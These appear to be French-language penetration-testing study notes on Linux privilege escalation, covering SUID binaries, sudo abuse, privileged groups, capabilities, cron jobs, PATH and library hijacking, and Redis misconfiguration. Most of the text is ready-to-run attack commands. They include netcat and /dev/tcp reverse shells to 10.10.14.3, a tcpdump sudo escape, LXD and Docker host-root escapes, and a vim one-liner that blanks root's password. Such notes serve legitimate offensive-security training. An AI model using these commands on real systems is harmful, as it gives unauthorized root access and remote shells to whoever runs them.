

## 25. Special Permissions (SUID, SGID, GTFOBins)

L'exploitation des permissions spéciales permet d'exécuter des fichiers avec les privilèges de leur propriétaire ou de leur groupe.

### SUID (Set User ID)
L'exécution d'un fichier SUID s'effectue avec les privilèges du propriétaire, souvent **root**.

```bash
find / -user root -perm -4000 -type f -exec ls -ldb {} \; 2>/dev/null
```

> [!tip]
> L'indicateur `-rwsr-xr-x` confirme que le bit SUID est actif sur le binaire.
> [!danger]
> Vérifier les binaires SUID custom vs système pour isoler les vecteurs d'attaque probables.

### SGID (Set Group ID)
L'exécution s'effectue avec les privilèges du groupe propriétaire du fichier.

```bash
find / -user root -perm -6000 -type f -exec ls -ldb {} \; 2>/dev/null
```

### Exploitation de binaires
Pour les binaires personnalisés, une analyse statique et dynamique est nécessaire :

```bash
file /chemin/vers/binaire
strings /chemin/vers/binaire
ltrace /chemin/vers/binaire
strace /chemin/vers/binaire
```

### GTFOBins
Les binaires système connus pour permettre une évasion de privilèges sont référencés sur **GTFOBins**.

Exemple avec **apt-get** :
```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

> [!note]
> L'automatisation via **linpeas.sh** est recommandée pour identifier rapidement ces vecteurs :
> `wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh`
> `chmod +x linpeas.sh && ./linpeas.sh`

## 26. Sudo Rights Abuse

L'abus des droits accordés via **sudo** permet une élévation directe.

### Vérification des droits
```bash
sudo -l
```

### Exemple d'exploitation : tcpdump
Si **tcpdump** est autorisé sans mot de passe, l'option **-z** permet l'exécution de commandes.

1. Création d'une **reverse shell** :
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f' > /tmp/.test
chmod +x /tmp/.test
```

2. Listener **netcat** :
```bash
nc -lnvp 443
```

3. Exécution :
```bash
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

> [!danger]
> **Prérequis :** Toujours privilégier le chemin absolu dans `/etc/sudoers` pour éviter le **PATH Hijacking**.
> **Attention :** Des protections comme AppArmor ou SELinux peuvent bloquer l'exécution de scripts via des binaires autorisés.

## 27. Privileged Groups Abuse

L'appartenance à certains groupes système permet une escalade vers **root**.

| Groupe | Droit critique | Exploitation principale |
| :--- | :--- | :--- |
| **lxd** | Container root = Host root | LXD privilege container |
| **docker** | Conteneur avec volume système | Chroot dans `/` |
| **disk** | Accès brut aux partitions | **debugfs**, lecture brute |
| **adm** | Lecture complète des logs | Analyse d'actions / mots de passe |

### Exploitation LXD
```bash
lxd init
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```

### Exploitation Docker
```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

> [!info]
> Le groupe **adm** ne donne pas **root** directement mais facilite la collecte d'informations critiques dans `/var/log`.

## 28. Linux Capabilities

Les **capabilities** permettent de diviser les privilèges de **root** en unités plus granulaires.

### Énumération
```bash
getcap -r / 2>/dev/null
```

### Capabilities critiques
| Capability | Description |
| :--- | :--- |
| `cap_dac_override` | Ignore les droits de lecture/écriture/exécution |
| `cap_sys_admin` | Accès étendu (mount, modifs système) |
| `cap_setuid` | Permet de changer son UID effectif |
| `cap_net_bind_service` | Bind sur ports < 1024 |
| `cap_sys_ptrace` | Manipulation de processus tiers |

### Exploitation : cap_dac_override
Permet de modifier `/etc/passwd` ou `/etc/shadow` sans être **root**.

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

> [!warning]
> Les capabilities peuvent être héritées ou effectives. Vérifier les flags **+eip** vs **+ep**.
> **Attention :** Toujours vérifier les protections type AppArmor lors de l'exploitation.

### Gestion des capabilities
```bash
sudo setcap cap_net_bind_service=+ep /usr/bin/nc
```

| Syntaxe | Description |
| :--- | :--- |
| `=` | Supprime les permissions |
| `+ep` | Ajoute Effective + Permitted |
| `+eip` | Ajoute Effective + Inheritable + Permitted |
| `+p` | Ajoute seulement Permitted |

## 29. Cron Jobs
Les tâches planifiées exécutées par **root** sont des vecteurs d'escalade classiques si elles appellent des scripts modifiables.

```bash
cat /etc/crontab
ls -la /etc/cron.*
```

Si un script est exécuté par root et modifiable :
```bash
echo "bash -i >& /dev/tcp/10.10.14.3/443 0>&1" >> /chemin/vers/script.sh
```
*Note liée : Reverse Shell*

## 30. PATH Hijacking
Si un binaire SUID ou exécuté par root appelle une commande sans chemin absolu, on peut détourner l'exécution.

```bash
# Vérification des appels système
strings /usr/local/bin/backup_tool
# Si le binaire appelle 'tar' sans /bin/tar
echo "/bin/bash" > /tmp/tar
chmod +x /tmp/tar
export PATH=/tmp:$PATH
/usr/local/bin/backup_tool
```

## 31. Kernel Exploits
En dernier recours, si le noyau est vulnérable (ex: DirtyCow, PwnKit).

```bash
uname -a
cat /etc/issue
searchsploit linux kernel <version>
```
*Note liée : Linux Enumeration*

## 32. Shared Object Hijacking
Si un binaire cherche des bibliothèques (`.so`) dans des répertoires inscriptibles.

```bash
ldd /usr/local/bin/custom_app
# Si une lib est manquante ou dans un chemin inscriptible
gcc -shared -fPIC -o /tmp/libexploit.so exploit.c
```

## 33. Service Misconfigurations
Vérification des services tournant en local (ex: Redis, MySQL) mal configurés.

```bash
ss -tulpn
# Exemple : Redis sans mot de passe
redis-cli -h 127.0.0.1
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```
*Note liée : Linux Persistence*